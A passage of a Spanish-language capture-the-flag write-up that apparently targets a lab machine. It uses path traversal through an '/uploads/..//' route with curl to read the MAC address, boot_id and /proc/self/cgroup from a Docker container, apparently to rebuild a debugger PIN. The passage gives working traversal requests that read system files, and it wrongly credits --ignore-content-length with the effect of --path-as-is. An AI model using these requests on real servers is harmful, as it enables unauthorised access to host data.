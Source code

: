 </p>

Ahí esta la ruta completa del script **app.py**.

Datos privados:
* *uuid.getnode()*: este representa la **MAC** de la máquina víctima; debe estar en hexadecimal. Para obtener este, podemos aplicar un **curl** a la siguiente ruta: `/sys/class/net/<device_id>/address`, en donde debemos especificar la interfaz de red de la máquina.
```bash
curl --path-as-is http://10.10.11.164/uploads/..//sys/class/net/eth0/address
02:42:ac:11:00:07
curl: (18) end of response with 4078 bytes missing
```
Al ser un contenedor, estos tienen la interfaz **eth0** por defecto.

Ahora, podemos pasar la **MAC** a hexadecimal usando **Python**. Elimina los `:` y pega el resultado en **Python**:
```python
python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x0242ac110007
2485377892359
```

* *get_machine_id()*: se concatena la data de `/etc/machine-id`, o en caso de que no exista `/proc/sys/kernel/random/boot_id`, con el hash después de la diagonal de la data resultante de `/proc/self/cgroup`.

Para obtener el primer dato, agregamos el parámetro `--ignore-content-length`, pues así no trata las secuencias de `/../` o `/./` en la **ruta URL** dada. Normalmente, **curl** las aplasta o fusiona de acuerdo con los estándares, pero con esta opción puedes decirle que no lo haga.
```bash
curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id
ec9352f3-f38c-4d69-ad41-55fe71f295ba
```

Para el segundo dato, aplicamos lo mismo para la ruta que nos mencionan:
```bash
curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//proc/self/cgroup
12:cpuset:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
11:pids:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
10:hugetlb:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
9:freezer:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
8:net_cls,net_prio:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
7:blkio:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
6:cpu,cpuacct:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
5:perf_event:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
4:memory:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
3:rdma:/
2:devices:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
1:name=systemd:/docker/13b2cdc6369343a100be0437d9c4f4e32b7b882fbb76b2c49fa18a72b80f5799
0::/system.slice/snap.docker.dockerd.service
```
Y ocupamos únicamente el **hash**, todos son iguales, por lo que puedes ocupar el que sea.
